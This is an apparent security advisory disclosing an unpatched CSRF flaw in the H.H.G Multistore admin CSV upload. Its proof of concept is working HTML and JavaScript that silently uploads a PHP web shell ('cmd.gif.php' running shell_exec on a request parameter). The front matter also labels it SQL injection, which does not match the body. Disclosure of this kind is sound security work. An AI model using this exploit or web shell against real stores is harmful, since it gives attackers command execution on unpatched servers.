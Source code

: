 ```yaml
---

title: "H.H.G Multistore <= 5.1.0 - CSRF in CSV File Upload"
date: 2022-05-15
draft: false
authors: ["blockomat"]
tags: ["advisory"]
description: "SQL-Injection H.H.G Multistore"
featuredImage: "/alert.jpg"
featuredImagePreview: "/alert_crop.png"
---
```

Security vulnerabilities were found in [H.H.G Multistore](https://www.hhg-multistore.com/) <= 5.1.0.

There is no patch available. This product seems to be end of life, last versions were published 4/5 years ago.
<!--more-->

**CVE-ID:** CVE-2022-XXXXX (pending)

**Affected Product:** H.H.G Multistore

**Affected Versions:** Community Edition <= 4.10.3; Enterprise Edition <= 5.1.0

**Vulnerability:** CSRF

**Vendor URL:** [https://www.hhg-multistore.com/](https://www.hhg-multistore.com/)

**Status:** Unfixed

**Severity:** High


## Timeline
- 2022-05-05: Discovery
- 2022-05-15: Date Published

## Description
The CSV File Upload method in the admin panel is vulnerable to a CSRF.
The CSV File Upload accepts PHP instead of CSV files only, which increases the risk of this CSRF.
A successful exploit will create a web shell in the the following web path `/store_files/1/import/cmd.gif.php`.


## Proof of Concept
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
	var target = "http://localhost";
        var xhr = new XMLHttpRequest();
        xhr.open("POST", target + "/admin\/index.php?module=csv_backend&action=upload", true);
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/avif,image\/webp,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=---------------------------347642001511243116663838125471");
        xhr.withCredentials = true;
        var body = "-----------------------------347642001511243116663838125471\r\n" + 
          "Content-Disposition: form-data; name=\"file_upload\"; filename=\"cmd.gif.php\"\r\n" + 
          "Content-Type: application/x-php\r\n" + 
          "\r\n" + 
          "GIF8;\n" + 
          "\n" + 
          "\x3c?php echo shell_exec($_REQUEST[\'blocki\']); ?\x3e\n" + 
          "\n" + 
          "\r\n" + 
          "-----------------------------347642001511243116663838125471--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
	<script>
		submitRequest();
	</script>
  </body>
</html>
```

